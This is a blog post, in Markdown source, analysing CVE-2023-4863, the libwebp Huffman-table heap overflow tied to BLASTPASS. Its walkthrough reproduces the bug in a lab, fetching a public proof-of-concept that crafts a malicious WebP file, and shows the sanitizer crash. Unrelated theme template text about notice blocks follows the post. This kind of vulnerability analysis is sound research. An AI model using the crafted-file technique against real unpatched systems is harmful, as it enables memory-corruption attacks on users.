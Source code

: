 ```yaml
---
title: "CVE-2023-4863: The WebP 0day"
categories:
  - Blog
tags:
  - CVEs
---
```

Last month, a new zero-day vulnerability was uncovered when Google released a critical update for its Chrome browser. A warning that accompanied the CVE announcement said "Google is aware that an exploit for CVE-2023-4863 exists in the wild": an active threat actor has already exploited this vulnerability. 

**CVE-2023-4863:** Heap buffer overflow in libwebp in Google Chrome prior to 116.0.5845.187 and libwebp 1.3.2 allowed a remote attacker to perform an out of bounds memory write via a crafted HTML page.
{: .notice--info}

####Discovery Timeline
The discovery of CVE-2023-4863 is intricately linked to an earlier Apple CVE, CVE-2023-41064. It all began when Citizen Lab detected suspicious activity on an iPhone belonging to an employee of a Washington DC-based civil society organization. Dubbed "BLASTPASS," this activity was attributed to an NSO Group's Pegasus spyware exploit, specifically a zero-click exploit for iMessage.

Apple swiftly responded by releasing a security bulletin, featuring two new CVEs, CVE-2023-41061 and CVE-2023-41064. On these CVEs, Apple noted, "Apple is aware of a report that this issue may have been actively exploited."

The BLASTPASS attack bypassed the iMessage sandbox, likely by embedding a malicious image in a PassKit attachment. This attack corresponds to the first CVE released by Apple, CVE-2023-41061. The second CVE, CVE-2023-41064, identified a buffer overflow vulnerability in ImageIO, Apple's image parsing framework.

However, the key insight comes from the fact that ImageIO recently started supporting WebP files. Shortly before Apple's security bulletin, Apple's team reported a WebP vulnerability to Chrome, which was rapidly patched. Google marked this fix as "exploited in the wild." It appears that the BLASTPASS vulnerability and CVE-2023-4863 (the WebP 0day) are one and the same.

####The WebP 0day - Technical Analysis
The technical analysis of CVE-2023-4863 sheds light on the inner workings of this zero-day vulnerability. By cross-referencing Chrome's bug ID with open source commits in the libwebp library code, an essential patch was identified: "Fix OOB write in BuildHuffmanTable." This patch was created one day after Apple's report and corresponds to CVE-2023-4863.

This vulnerability is associated with the "lossless compression" support for WebP, using Huffman coding. This coding is a critical component of lossless image compression, where an algorithm assigns shorter or longer sequences of output bits based on the frequency of input values. The vulnerability resided in the handling of the Huffman tables when decoding an untrusted image, leading to an out-of-bounds write.
 
To exploit this issue, an attacker would need to manipulate code lengths, allowing them to exceed the pre-calculated buffer size. The complexity of the Huffman tree and the interaction between various factors make crafting a triggering file non-trivial.

####Technical Walkthrough
I simply wanted to walkthrough the POC process, so I leveraged the research of @mistymntcop and @isosceles. They worked together to reproduce the issue and create a buffer overflow. 

I replicated the bug with the following code:
```html
 # checkout webp
$ git clone https://chromium.googlesource.com/webm/libwebp/ webp_test
$ cd webp_test/
  # checkout vulnerable version
$ git checkout 7ba44f80f3b94fc0138db159afea770ef06532a0
  # enable AddressSanitizer
$ sed -i 's/^EXTRA_FLAGS=.*/& -fsanitize=address/' makefile.unix
  # build webp
$ make -f makefile.unix
$ cd examples/
  # fetch mistymntncop's proof-of-concept code
$ wget https://raw.githubusercontent.com/mistymntncop/CVE-2023-4863/main/craft.c
  # build and run proof-of-concept
$ gcc -o craft craft.c
$ ./craft bad.webp
  # test trigger file
$ ./dwebp bad.webp -o test.png
```
Which generated the following output:
```html
  SUMMARY: AddressSanitizer: heap-buffer-overflow (/home/kali/webp_test/examples/dwebp+0x9eaec) (BuildId: 4c1cbf5ffb5b244be01b298cd51c59ec4d429d35) in BuildHuffmanTable
Shadow bytes around the buggy address:
  0x626000002c80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x626000002d00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x626000002d80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x626000002e00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x626000002e80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x626000002f00: 00 00 00 00 00[fa]fa fa fa fa fa fa fa fa fa fa
  0x626000002f80: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x626000003000: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x626000003080: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x626000003100: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x626000003180: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==22919==ABORTING
```
Despite having limited control over the written value, this POC proves that this version of webp is exploitable via buffer overflow.

####Final Thoughts
The discovery of the WebP 0day, CVE-2023-4863, sheds light on the challenges and complexities of zero-day vulnerabilities in widely used open source libraries. This issue underscores the need for a more comprehensive approach to cybersecurity, combining fuzzing, code audits, and manual analysis.






Want to wrap several paragraphs or other elements in a notice? Using Liquid to capture the content and then filter it with `markdownify` is a good way to go.

```html
{% raw %}{% capture notice-2 %}
#### New Site Features

* You can now have cover images on blog pages
* Drafts will now auto-save while writing
{% endcapture %}{% endraw %}

<div class="notice">{% raw %}{{ notice-2 | markdownify }}{% endraw %}</div>
```

{% capture notice-2 %}
#### New Site Features

* You can now have cover images on blog pages
* Drafts will now auto-save while writing
{% endcapture %}

<div class="notice">
  {{ notice-2 | markdownify }}
</div>

Or you could skip the capture and stick with straight HTML.

```html
<div class="notice">
  <h4>Message</h4>
  <p>A basic message.</p>
</div>
```

<div class="notice">
  <h4>Message</h4>
  <p>A basic message.</p>
</div>
